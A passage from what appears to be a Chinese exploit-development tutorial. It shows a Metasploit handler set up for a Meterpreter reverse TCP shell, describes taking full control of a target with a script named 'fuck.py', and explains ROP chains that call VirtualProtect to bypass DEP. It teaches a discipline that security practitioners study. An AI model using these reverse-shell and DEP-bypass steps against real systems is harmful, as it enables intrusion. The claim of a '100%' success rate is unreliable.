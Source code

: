     ┌──(lyshark㉿kali)-[~]
    └─$ msfconsole -q
    msf > use exploit/multi/handler
    msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    msf exploit(multi/handler) > set lhost 192.168.9.135
    msf exploit(multi/handler) > set lport 8888
    msf exploit(multi/handler) > exploit
    
    [*] Started reverse TCP handler on 192.168.9.135:8888
    

当一切准备就绪之后我们运行`fuck.py`攻击脚本，此时即可得到目标主机的完全控制权，当下目标主机已经沦为肉鸡任人宰割。

![](https://img2023.cnblogs.com/blog/1379525/202307/1379525-20230712085029105-777275918.png)

上方笔者所演示的就是典型的基于内存的攻击技术，该技术的优势就是几乎很难被发现，100%的利用成功率，内存攻击技术就是利用了软件的安全漏洞，该漏洞的产生表面上是开发人员没有对缓冲区进行合理的检测，但其根本原因是，现代计算机在实现图灵模型时，没有在内存中严格区分数据和指令，这就存在程序的外部输入很有可能被当作指令来执行，当今任何操作系统都很难根除这种设计缺陷(图灵机特性)，只能在某种程度上通过引入特殊的技术(DEP保护机制)去阻止黑客的成功利用。

#### 5.2.5 ROP绕过DEP保护

笔者前期提到过，缓冲区溢出的根本原因就是错误的将用户输入的恶意数据当作了指令来执行了从而导致发生溢出，因此微软推出了基于软件实现的`DEP保护`机制，其原理就是强制将`堆栈`属性设置为`NX`不可执行，而在后期AMD也首次推出了基于硬件实现的CPU处理器，从而很大程度上解决了这类溢出事件的发生。

而随着DEP技术的出现，黑客们就研究出了另一种绕过的措施，就是本次所提到的`ROP返回导向`编程，在微软系统中有这样的一些函数他们的作用就是可以将堆栈设置为可读可写可执行属性`(VirtualProtect)`之所以会出现这些函数是因为，有些开发人员需要在堆栈中执行代码，所以也不可能将这样的功能彻底去掉。

既然无法直接执行堆栈上的代码，但是代码段依然是可以被执行的，我们可以经过调用末尾带有`RET`指令的微小片段，而他们会返回到栈，并再次调用令一块片段，以此类推，众多的小片段就可以完成调用`VirtualProoect`函数的功能，从而将当前堆栈设置为可执行，这样堆栈中的代码就可以被执行下去。

关于`VirtualProoect`函数，该函数用于更改指定内存区域的保护属性。函数的函数原型如下：

    BOOL VirtualProtect(
      LPVOID lpAddress,
      SIZE_T dwSize,
      DWORD flNewProtect,
      PDWORD lpflOldProtect
    );
    

该函数有四个参数：

*   lpAddress：指向目标内存区域的指针。
*   dwSize：要更改保护属性的内存区域的大小，以字节为单位。
*   flNewProtect：请求的新保护属性。
*   lpflOldProtect：一个指向变量的指针，用于保存旧的保护属性。

返回值为 BOOL 类型，如果函数成功执行，则返回非零值，否则返回零。

需要注意的是：在构建`ROP链`的时候，如果`RET返回`之前是一个影响堆栈的指令，那么我们就需要在`ROP堆栈链`的下方手动填充一些垫片来中和掉`POP`等指令对堆栈的影响，因为下一条指令也会从堆栈中取值，如果不中和掉这些无用代码的影响则`ROP链`将无法被正常执行，比如如下图这条代码`POP ECX`影响了堆栈，如果不是我们所需要调用的参数，那么我们就在他的下面填充一些填充物来中和一下。

![](https://img2023.cnblogs.com/blog/1379525/202307/1379525-20230712085038640-221796514.png)

但读者应该明白，这里所说的`绕过DEP`保护其实并不完善，其实我们并无法绕过，而仅仅只是寻找没有开启DEP保护的模块作为跳板使用，并依附于这些跳板指令构造出能够调用`VirtualProtect`函数的指令集，当该指令被调用，则自然DEP保护可以被关闭，在找到模块之前，必须判断哪些模块可以被使用，这里读者是否想到了`LyScript`插件中的扫描功能，如下代码将可以帮助读者以最快的速度验证当前进程中是否有我们所需模块；
